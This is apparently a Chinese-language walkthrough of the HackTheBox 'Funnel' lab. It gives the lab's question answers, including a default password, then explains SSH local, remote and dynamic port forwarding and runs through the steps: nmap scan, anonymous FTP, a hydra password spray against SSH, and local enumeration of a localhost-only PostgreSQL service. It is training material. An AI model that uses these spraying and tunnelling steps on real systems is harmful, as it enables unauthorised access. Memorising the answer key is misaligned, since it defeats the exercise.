


<center>Funnel</center>


[toc]


## Funnel

> Funnel


### 1. task

1. How many TCP ports are open?

```shell
2
```

2. What is the name of the directory that is available on the FTP server?

```shell
mail_backup
```

3. What is the default account password that every new member on the "Funnel" team should change as soon as possible?

```shell
funnel123#!#
```

4. Which user has not changed their default password yet?

```shell
christine
```

5. Which service is running on TCP port 5432 and listens only on localhost?

```shell
postgresql
```

6. Since you can't access the previously mentioned service from the local machine, you will have to create a tunnel and connect to it from your machine. What is the correct type of tunneling to use? remote port forwarding or local port forwarding?

```shell
local port forwarding
```

7. What is the name of the database that holds the flag?

```shell
secrets
```

8. Could you use a dynamic tunnel instead of local port forwarding? Yes or No.

```shell
yes
```


### 2. SSH隧道

> SSH 隧道是一种通过 SSH 协议建立的加密通道。
>
> 概念： [blog](https://blog.csdn.net/sycamorelg/article/details/134166718)

```shell
数据加密传输
绕过防火墙
端口转发
代理访问
```

````shell

#### 本地端口转发（Local Port Forwarding）
```bash
# 语法
ssh -L [本地IP:]本地端口:目标IP:目标端口 用户名@SSH服务器

# 示例：将本地3306端口转发到远程MySQL
ssh -L 3306:localhost:3306 user@remote_server

# 示例：访问内网服务
ssh -L 8080:internal_server:80 user@gateway_server
```


#### 远程端口转发（Remote Port Forwarding）
```bash
# 语法
ssh -R [远程IP:]远程端口:目标IP:目标端口 用户名@SSH服务器

# 示例：将远程8080端口转发到本地80
ssh -R 8080:localhost:80 user@remote_server

# 示例：内网穿透
ssh -R 80:localhost:3000 user@public_server
```


#### 动态端口转发（Dynamic Port Forwarding）
```bash
# 语法
ssh -D [本地IP:]本地端口 用户名@SSH服务器

# 示例：创建SOCKS代理
ssh -D 1080 user@remote_server

# 配置浏览器使用SOCKS代理
# 代理地址：127.0.0.1
# 端口：1080
```


### 3. 持久化配置

```config:~/.ssh/config
# 本地端口转发
Host mysql-tunnel
    HostName remote_server
    User username
    LocalForward 3306 localhost:3306

# 远程端口转发
Host web-tunnel
    HostName public_server
    User username
    RemoteForward 8080 localhost:80

# 动态端口转发
Host proxy-tunnel
    HostName remote_server
    User username
    DynamicForward 1080
```


### 5. 常见应用场景

#### 数据库访问
```bash
# MySQL远程访问
ssh -L 3306:database_server:3306 user@jump_server

# Redis访问
ssh -L 6379:redis_server:6379 user@jump_server
```

#### Web服务访问
```bash
# 访问内网Web服务
ssh -L 8080:internal_web:80 user@gateway

# 反向代理
ssh -R 80:localhost:3000 user@public_server
```


````


### 3. flag

>  获取flag

```shell
nmap -sC -sV IP
```



> ftp 匿名登陆

```shell
ftp IP
用户名： anonymous/空密码
```

> 下载ftp文件



```shell
cat welcome_28112022

optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb

cat password_policy.pdf

发现一个默认密码：funnel123#!#
```

> 对ssh和密码爆破

```shell
hydra -L user.txt -p "funnel123#!#" ssh://IP
```

> 登陆ssh

```shell
# 检查哪些端口在给定的机器上执行本地监听
ss -tln

# 检查在端口上运行的默认服务 为postgresql
ss -tl
```

> 确认有 postgresql 服务

```shell
# 检查并没有安装了postgresql客户端工具
psql

# 并且不能进行下载，需要root权限
apt install postgresql-client-common
```


